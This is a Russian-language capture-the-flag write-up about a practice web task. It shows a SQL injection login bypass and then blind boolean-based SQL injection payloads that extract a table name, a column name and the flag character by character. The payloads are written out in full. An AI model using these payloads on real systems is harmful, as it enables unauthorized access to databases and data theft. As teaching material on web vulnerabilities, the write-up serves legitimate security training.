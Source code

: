 # Практика 4 часть 3

Открываем веб-сайт. errsql.myctf.ru

На этот раз фаззинг директорий нам ничего не принес. Пароль, полученный из исходников нам тоже не помог. Поэтому, попробуем выполнить sql инъекцию.

Попробуем инъекцию проверки пароля, введем в качестве логина — `admin`, а в качестве пароля `123' or 1=1 -- 123`. Данная атака позволяет выполнить свести логическую проверку пароля к проверке равенства `1=1`, которое всегда `True`, а следовательно выполнится. После чего остаток логики автора комментируется с помощью двойного тире. Выполнив атаку мы попадаем на страницу:

![image21](images/image21.jpg)

Видим что мы обошли авторизацию, но флаг не тут. Понимаем, что при истинном значении (`1=1`) мы обходим авторизацию, при ложном (`1=0`) нет. Используя эти знания пробуем достать данные из базы посимвольно.

![image22](images/image22.jpg)

Сначала имя таблицы:

```sql
login=admin' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)='l' -- -&password=somenewpass
```

(Получили таблицу flag)

Потом имя столбца:

```sql
login=admin' and substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' and substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='l' -- -&password=somenewpass
```

(получили столбец flag)

И в конце достаем флаг:

```sql
login=admin' and substr((select flag from flag),1,1)='F' -- -&password=somenewpass
```

```sql
login=admin' and substr((select flag from flag),2,1)='l' -- -&password=somenewpass
```

Уязвимость в данном задании заключается в том, что мы можем делать любые запросы к базе данных, однако у нас нет возможности отобразить информацию на экране, поэтому мы используем некоторую логическую операцию: так например, если мы осуществляем успешный логин, с помощью конструкции `1=1`, а при `0=1` – логина нет, то нам ничего не мешает осуществить ту же самую операцию, сравнивая, например буквы — `f=f`, а раз мы можем сравнивать буквы, то можно попробовать сформировать одну из частей выражения запросом, а другую — подставлять руками. Таким образом, если, например, `1 буква имени таблицы = f`, то подставив в правую часть выражения `f`, мы успешно залогинимся. Если же мы не угадали, то можем перебирать правую часть выражения до тех пор, пока равенство не выполнится и не произойдет успешный логин. Вручную, конечно, это делать крайне трудозатратно, поэтому обычно такие процессы автоматизируют. Данная уязвимость, в зависимости от ограничений и прав пользователя из под которого происходит запрос, позволяет извлечь/записать любые данные из базы.